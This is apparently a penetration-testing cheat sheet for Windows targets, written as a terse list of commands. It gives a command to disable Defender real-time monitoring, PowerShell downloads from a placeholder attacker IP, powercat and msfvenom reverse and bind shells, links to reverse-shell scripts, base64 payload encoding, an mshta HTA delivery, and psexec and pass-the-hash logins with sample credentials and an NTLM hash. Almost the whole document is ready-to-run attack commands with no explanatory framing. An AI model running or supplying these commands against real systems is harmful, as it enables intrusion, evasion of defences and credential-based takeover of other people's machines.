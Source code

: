 - Disable Defender
    - Set-MpPreference -DisableRealtimeMonitoring $true
  
# Windows file transfers
- Powershell
    -   `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/wget.exe','C:\Windows\Temp\wget.exe')"`
- Recieve file with powercat(send file with nc) `powercat -c 10.10.10.10 -p 443 -i file.txt`


# Windows shells
- Kali has nc.exe at /usr/share/windows-resources/binaries/nc.exe
- C# compile + run
    - `C:\windows\microsoft.net\framework64\v4.0.30319\csc.exe /t:exe /out:C:\windows\temp\rev.exe C:\windows\temp\rev.cs`
- Powershell 
    - [Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)
    - [Powershell-OneLinerReverseShell](https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/2c6e4a2d6fd72ba0f103cce2afa3b492e347edc2/powershell_reverse_shell.ps1)
    - Base64 encode powershell in linux and execute with -e `Cat shell.ps1 | iconv -t utf-16le | base64 -w 0`
- Powercat
    - Generate reverse shell `powercat -c 10.10.10.10 -p 443 -e cmd.exe -g`
    - Encoded reverse shell `powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge`
    - Reverse shell `powercat -c 10.10.10.10 -p 443 -e cmd.exe`
    - Bind shell `powercat -l -p 443 -e cmd.exe`
    - Listener `powercat -l -p 443`
- Msf
    -   Powershell `msfvenom -p cmd/windows/reverse_powershell lhost=10.10.10.10 lport=80`
    -   MSHTA
        -   use exploit/windows/misc/hta_server
        -   mshta.exe hxxp://10.10.65.86:8080/VlHPpQahHBNkkeX.hta  

# Windows privilege escalation

### SMB with creds/hashes
- Login with creds
	- `psexec.py administrator:Password1@10.0.0.10`
	- `smbexec.py administrator:carolina@10.0.0.169`
	- `winexe -U administrator%alice_123321 //10.0.0.6 'whoami'`
	- `evil-winrm -u administrator -p rocknroll_123321 -i 10.0.0.192`
- Login with hash
    - `pth-winexe -U user%NTLM_HASH //10.10.10.10 cmd.exe`
    - `python smbclient.py -hashes 00000000000000000000000000000000:3CAC6D4B3A7E5014E32EB12EF0C75476 Domain/Administrator@IP`

